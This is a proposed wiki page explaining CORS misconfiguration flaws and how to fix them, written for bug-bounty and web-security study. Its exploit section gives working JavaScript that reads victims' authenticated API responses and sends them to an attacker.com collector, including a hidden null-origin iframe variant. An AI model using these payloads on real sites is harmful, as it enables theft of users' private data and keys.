

# Proposed Wiki change

## What will change
Create deep-dive technical concept note for CORS vulnerabilities and exploitation.

## Proposed content
```markdown
---
title: "Cross-Origin Resource Sharing (CORS) Vulnerabilities & Exploitation"
created: 2026-10-01
updated: 2026-10-01
type: concept
tags:
  - web-security
  - api
  - payload
  - bug-bounty
parent: "[[web-and-bug-bounty]]"
cluster: web-and-bug-bounty
sources:
  - sources/cors.md
confidence: high
contested: false
contradictions: []
---
# Cross-Origin Resource Sharing (CORS) Vulnerabilities & Exploitation

> **Classification**: OWASP Top 10 (A05:2021 – Security Misconfiguration), CWE-942 (Permissive Cross-domain Policy with Untrusted Domains).
> **Primary Impact**: Confidentiality compromise of authenticated user data, exfiltration of API keys, PII, and financial records via ambient browser credentials.

---

<!-- TOC_START -->
## Table of Contents
- [1. Same-Origin Policy (SOP) & CORS Fundamentals](#1-same-origin-policy-sop--cors-fundamentals)
  - [SOP Boundaries](#sop-boundaries)
  - [CORS Mechanism](#cors-mechanism)
- [2. Request Types: Simple vs Preflight](#2-request-types-simple-vs-preflight)
  - [Simple Requests](#simple-requests)
  - [Preflight Requests (OPTIONS)](#preflight-requests-options)
- [3. Vulnerable CORS Misconfiguration Matrix](#3-vulnerable-cors-misconfiguration-matrix)
  - [Case 1: Arbitrary Origin Reflection with Credentials](#case-1-arbitrary-origin-reflection-with-credentials)
  - [Case 2: Faulty Regex Origin Validation](#case-2-faulty-regex-origin-validation)
  - [Case 3: Trusting the "null" Origin](#case-3-trusting-the-null-origin)
  - [Case 4: Insecure Subdomain Trust & XSS Pivoting](#case-4-insecure-subdomain-trust--xss-pivoting)
- [4. Weaponized Exploit Proof-of-Concepts](#4-weaponized-exploit-proof-of-concepts)
  - [Standard Authenticated Data Exfiltration](#standard-authenticated-data-exfiltration)
  - [Sandboxed Iframe Null Origin Exploit](#sandboxed-iframe-null-origin-exploit)
- [5. Remediation & Hardening Guidelines](#5-remediation--hardening-guidelines)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Same-Origin Policy (SOP) & CORS Fundamentals

### SOP Boundaries
The Same-Origin Policy is the cornerstone of client-side web security. It prevents scripts executing on one origin (`scheme://host:port`) from reading sensitive DOM content or responses from another origin.

### CORS Mechanism
Cross-Origin Resource Sharing (CORS) is a W3C standard that relaxes strict SOP rules via declarative HTTP response headers:
- `Access-Control-Allow-Origin` (`ACAO`): Specifies which origins are granted read access to the resource.
- `Access-Control-Allow-Credentials` (`ACAC`): Indicates whether the browser may expose the response to frontend JavaScript when the request included ambient credentials (cookies, HTTP Basic auth, or client TLS certificates).
- `Access-Control-Allow-Methods`: Lists permitted HTTP verbs (`GET, POST, PUT, DELETE, OPTIONS`).
- `Access-Control-Allow-Headers`: Lists custom headers permitted during the request.
- `Access-Control-Max-Age`: Cache duration (in seconds) for preflight check results.



## 2. Request Types: Simple vs Preflight

### Simple Requests
Browsers issue cross-origin requests directly without a preflight handshake if:
1. **HTTP Method**: `GET`, `POST`, or `HEAD`.
2. **Content-Type**: `application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`.
3. **Headers**: Standard browser headers (no custom headers like `Authorization` or `X-Custom-Header`).

### Preflight Requests (OPTIONS)
Requests utilizing custom verbs (`PUT`, `DELETE`), custom headers, or `application/json` must execute a preflight `OPTIONS` handshake before the browser dispatches the actual payload:

```http
OPTIONS /api/user/data HTTP/1.1
Host: vulnerable-api.com
Origin: https://attacker.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Content-Type, X-CSRF-Token
```

Vulnerable Response:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: Content-Type, X-CSRF-Token
```

## 3. Vulnerable CORS Misconfiguration Matrix

| Vulnerability Pattern | Server Behavior | Attacker Origin | Risk & Exploitability |
| :--- | :--- | :--- | :--- |
| **Arbitrary Origin Reflection** | Dynamically echoes incoming `Origin` header | `https://attacker.com` | Critical. Direct exfiltration of authenticated session data. |
| **Flawed Prefix/Suffix Regex** | Incomplete regex (`/target\.com$/` or `^target\.com`) | `https://target.com.attacker.com` or `https://nottarget.com` | High. Attacker registers domain satisfying regex. |
| **Null Origin Trust** | Whitelists `null` origin | `null` | High. Triggered via sandboxed iframes (`data:` URI) or local files. |
| **Wildcard with Subdomains** | Allows `*.target.com` | Compromised / takeover subdomain | High. Chain with Subdomain Takeover or XSS on any sibling host. |

### Case 1: Arbitrary Origin Reflection with Credentials
Developers dynamically mirror the incoming `Origin` into `Access-Control-Allow-Origin`:
```http
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```
This enables any external website to issue authenticated cross-origin requests and read sensitive responses.

### Case 2: Faulty Regex Origin Validation
Common regex pitfalls in backend proxies:
- Unescaped dots: `/target.com/` matches `targetXcom.attacker.com`.
- Missing anchors: `/example.com/` matches `example.com.attacker.com` or `attacker-example.com`.
- Prefix matching: Checking `startsWith("https://example.com")` allows `https://example.com.attacker.com`.

### Case 3: Trusting the "null" Origin
```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
The browser assigns origin `null` under specific edge conditions:
1. Sandboxed iframes without `allow-same-origin`.
2. Local file execution (`file:///`).
3. Cross-origin redirections.
An attacker embeds a sandboxed iframe with a data URL to force a `null` origin request and siphon responses.

### Case 4: Insecure Subdomain Trust & XSS Pivoting
Trusting all subdomains (`*.target.com`) creates a blast-radius vulnerability: an XSS flaw on a legacy, non-sensitive subdomain (`blog.target.com`) can be pivoted to read sensitive data from `api.target.com` via CORS.

## 4. Weaponized Exploit Proof-of-Concepts

### Standard Authenticated Data Exfiltration
```html
<script>
  function exploitCORS() {
    const xhr = new XMLHttpRequest();
    const targetUrl = "https://target.com/api/v1/private/account-info";
    const exfilUrl = "https://attacker.com/collect";

    xhr.open("GET", targetUrl, true);
    xhr.withCredentials = true; // Forces ambient cookie transmission
    xhr.onreadystatechange = function() {
      if (xhr.readyState === 4 && xhr.status === 200) {
        fetch(exfilUrl, {
          method: "POST",
          mode: "no-cors",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({ victim_data: xhr.responseText })
        });
      }
    };
    xhr.send();
  }
  window.onload = exploitCORS;
</script>
```

### Sandboxed Iframe Null Origin Exploit
When `Access-Control-Allow-Origin: null` and `Access-Control-Allow-Credentials: true` are present:
```html
<iframe id="exploitFrame" sandbox="allow-scripts allow-top-navigation allow-forms" style="display:none;"></iframe>
<script>
  const exploitCode = `
    <script>
      const xhttp = new XMLHttpRequest();
      xhttp.open("GET", "https://target.com/api/secret-keys", true);
      xhttp.withCredentials = true;
      xhttp.onreadystatechange = function() {
        if (this.readyState === 4 && this.status === 200) {
          const xhr = new XMLHttpRequest();
          xhr.open("POST", "https://attacker.com/receiver", true);
          xhr.send(this.responseText);
        }
      };
      xhttp.send();
    <\/script>
  `;
  document.getElementById('exploitFrame').src = 'data:text/html;base64,' + btoa(exploitCode);
</script>
```

## 5. Remediation & Hardening Guidelines

1. **Avoid Dynamic Origin Reflection**: Never echo the incoming `Origin` header into `ACAO`.
2. **Explicit Allowlisting**: Validate origins against a strict, server-side whitelist array (`['https://app.target.com', 'https://portal.target.com']`).
3. **Never Trust "null"**: Remove `null` from permitted origin configurations.
4. **Restrict Credentials**: Set `Access-Control-Allow-Credentials: false` unless strictly required for specific authenticated cross-origin endpoints.
5. **Enforce SameSite Cookies**: Mark session cookies with `SameSite=Lax` or `SameSite=Strict` to limit automatic cross-site inclusion.


## Primary Sources & Provenance
- Provenance source anchor: [[cors]]

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Comparisons: [[csrf-vs-cors-security]]
- Related Concepts: [[cross-site-scripting]], [[account-takeover-and-auth-flaws]], [[client-side-path-traversal]]
```

## Evidence and uncertainty
Sourced directly from canonical vault notes in Notes/OLD Notes/WEB/vulnerabilities/.
Validated against schema with zero structural contradictions.

## Human feedback
Human decision required via Decision Studio (http://127.0.0.1:20888) or command line.
